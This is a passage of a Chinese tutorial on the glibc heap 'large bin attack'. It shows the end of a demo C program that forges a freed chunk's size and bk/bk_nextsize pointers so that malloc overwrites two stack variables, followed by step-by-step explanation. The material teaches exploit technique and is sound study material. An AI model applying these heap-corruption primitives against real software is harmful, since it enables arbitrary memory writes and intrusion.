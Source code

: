  ```c
     fprintf(stderr, "同样在分配一个 fastbin 大小的 chunk 防止合并掉\n\n");
     malloc(0x20);
 
     unsigned long *p3 = malloc(0x400);
     fprintf(stderr, "最后申请第三个 large chunk 在: %p\n", p3 - 2);
  
     fprintf(stderr, "申请一个 fastbin 大小的防止 free 的时候第三个 large chunk 与 top chunk 合并\n\n");
     malloc(0x20);
  
     free(p1);
     free(p2);
     fprintf(stderr, "free 掉第一个和第二个 chunk，他们会被放在 unsorted bin 中 [ %p <--> %p ]\n\n", (void *)(p2 - 2), (void *)(p2[0]));
 
     malloc(0x90);
     fprintf(stderr, "现在去申请一个比他俩小的，然后会把第一个分割出来，第二个则被整理到 largebin 中，第一个剩下的会放回到 unsortedbin 中 [ %p ]\n\n", (void *)((char *)p1 + 0x90));
 
     free(p3);
     fprintf(stderr, "free 掉第三个，他会被放到 unsorted bin 中: [ %p <--> %p ]\n\n", (void *)(p3 - 2), (void *)(p3[0]));
 
     fprintf(stderr, "假设有个漏洞，可以覆盖掉第二个 chunk 的 \"size\" 以及 \"bk\"、\"bk_nextsize\" 指针\n");
     fprintf(stderr, "减少释放的第二个 chunk 的大小强制 malloc 把将要释放的第三个 large chunk 插入到 largebin 列表的头部（largebin 会按照大小排序）。覆盖掉栈变量。覆盖 bk 为 stack_var1-0x10，bk_nextsize 为 stack_var2-0x20\n\n");
 
     p2[-1] = 0x3f1;
     p2[0] = 0;
     p2[2] = 0;
     p2[1] = (unsigned long)(&stack_var1 - 2);
     p2[3] = (unsigned long)(&stack_var2 - 4);
 
     malloc(0x90);
     fprintf(stderr, "再次 malloc，会把释放的第三个 chunk 插入到 largebin 中，同时我们的目标已经改写了:\n");
     fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
     fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);
     return 0;
 }
 ```

​    该技术可用于修改任意地址的值，例如栈上的变量stack_var1和 stack_var2。在实践中常常作为其他漏洞利用的前奏，例如在fastbin attack 中用于修改全局变量global_max_fast为一个很大的值。

​    首先我们分配 chunk p1, p2 和 p3，并且在它们之间插入其他的 chunk 以防止在释放时被合并。

 ![image-20211226161649066](/assets/wgpsec/images/heap/image-20211226161649066.png)

​    接下来释放p1和p2，它们被放入unsorted bin中。

  ![image-20211226161654862](/assets/wgpsec/images/heap/image-20211226161654862.png)

​    接下来去申请一个0x90大小的堆块，他会把前面那个0x320大小的堆块切割，同时会给unsorted bin中的free chunk进行整理划分，把那第二块大的放到large bin，第一个剩余的放回到unsorted bin中。
